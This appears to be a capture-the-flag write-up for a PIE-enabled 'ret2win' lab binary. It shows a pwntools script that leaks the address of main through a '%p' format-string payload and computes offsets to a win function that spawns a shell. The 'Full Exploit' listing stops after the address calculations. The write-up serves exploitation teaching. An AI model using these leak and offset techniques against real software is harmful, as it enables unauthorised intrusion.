 ![](/images/pwn-train2/pwntrain12.png)

A win function: this will call execve("/bin/sh"), its a ROP challenge and I am pretty sure you know how to do it. There is a small catch here. We have to calculate the relative offset of the addresses since PIE is enabled, so manually calculate the distance of the gadgets and the win function.

```py
p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.interactive()
```

Here, I found out that the 27th position, the address of main is printed so I put all the leaked stuff into a list (You can just strip it and store the main address value too). Next I manaually subtract the offset and add it to get the address from the leaked value. Also just to be sure everything is correct, I log all the info I get and verify them in gdb.

Now its simple, just call the win function with its argument set to `0xdeadbeefcafebabe` (RDI).

Full Exploit: 
```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2win_pie'
elf = ELF("ret2win_pie")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main+67
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)
```